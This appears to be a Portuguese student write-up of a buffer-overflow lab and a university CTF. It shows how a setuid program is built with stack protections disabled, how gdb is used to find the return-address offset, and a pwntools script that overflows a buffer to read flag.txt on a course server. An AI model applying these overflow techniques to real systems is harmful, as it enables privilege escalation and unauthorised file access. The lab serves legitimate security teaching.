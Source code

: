 # Task1: Getting familiar with ShellCode

### 3.4: Compilamos o programa usando o makefile e obtemos os dois binários.

![Compilar](fotos/printmake.png)


### Ao correr ambos os ficheiros .out verificamos que ambos criam uma shell e que realizam as mesmas tarefas.

![Compilar](fotos/print3264iguais.png)

# Task2:Understanding the Vulnerable Program

### Usamos o ficheiro Makefile para compilar o programa com a vulnerabilidade.:
### -fno-stack-protector: desativa o stack-smashing-protector que possiblita a ocorrência de buffer-overflow no stack; 
### -z execstack: Permite executar código que está guardado na stack; 
### sudo chown root stack: Mudar o dono do programa para root;          
### sudo chmod 4755 stack: Liga o bit Set-UID.  
![Compilar](fotos/makedocparabadfile.png)

# Task3 Launching Attack on 32-bit Program(Level 1)

### Usamos o 'gdb stack-L1-dbg' para dar debug do ficheiro e criamos um breakpoint na função bof. Quando o gdb para dentro da função bof o registo ebp ainda não está a apontar para a stack frame atual. Se imprimissemos o valor do registo iamos obter o 'caller's ebp value.  

![Compilar](fotos/peda1.png)

### Executamos o pograma.  

![Compilar](fotos/peda2.png)

### Usamos a instrução next para quando pararmos o registo ebp apontar para o stack frame da função bof.

![Compilar](fotos/peda3.png)

### Obtivemos os registos de memória do ebp e do buffer

![Compilar](fotos/peda4.png)


### Calculamos a diferença entre os registos de memória do ebp e do buffer

![Compilar](fotos/diff.jpeg)


### Preenchemos o que faltava no ficheiro exploit.py. Colocamos o start como 517-len(shellcode) porque queremos pôr o shellcode o mais para cima possível.No valor do ret tinhamos de colocar algo que estivesse no meio da zona dos NOP's, como essa zona é a cima do ebp e nós temos esse valor fomos somando números a esse valor incrementando de 4 em 4 tendo sido 72 o primeiro a funcionar. No offset colocamos 112 porque é o valor obtido no passo anterior ao qual somamos 4 bytes tendo assim a diferença entre o inicio do buffer e o RA.


![Compilar](fotos/exploitL1.png)

### Depois de ajustar o ficheiro exploit.py criamos um ficheiro badfile 'touch badfile' corremos o ficheiro python e o ficheiro stack-L1 e obtivemos uma shell.

![Compilar](fotos/ataqueL1.png)



# CTF Semana 5

## Desafio 1

### O checksec estava já disponivel no site:

```
    $ checksec program
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```

### De uma analise do programa concluimos que o buffer tem um tamanho de 20 byters mas o input pode ir até 28 podendo ser suscetivel a um buffer overflow.  Podemos então indicar quaisquer 20 caracteres e depois nos 8 restantes o ficheiro que queremos que seja aberto "flag.txt". Como a variavel meme_file é declarada antes da variavel bufferna pilha de memória e tem exatamente 8 bytes o que coincide com os 8 byter restantes poderá sobscrever essa variável lendo o ficheiro que nós colocarmos no input.

### Fizemos isso e obtivemos o seguinte resultado:

![Compilar](fotos/flag51.png)

## Desafio 2

### De uma analise do programa concluimos que o programa é semelhante ao anterior. Tendo uma defesa extra que passa por mais um buffer com uma variável que é verificada no  decorrer do programa para ver se foi alterada.
### O buffer tem apenas 20 caracteres na mesma sobrando exatamente 8 para o ficheiro e 4 para o val, seguindo a mesma lógica do Desafio 1, modificamos o ficheiro exploit-example.py:

```
    #!/usr/bin/python3
    from pwn import *

    DEBUG = False

    if DEBUG:
        r = process('./program')
    else:
        r = remote('ctf-sp.dcc.fc.up.pt', 4000)

    r.recvuntil(b":")
    r.sendline(b"aaaaaaaaaaaaaaaaaaaa\x23\x22\xfc\xfeflag.txt")
    r.interactive()
```

### Ao correr este ficheiro python obtivemos a flag como output:

![Compilar](fotos/5desafio2.png)


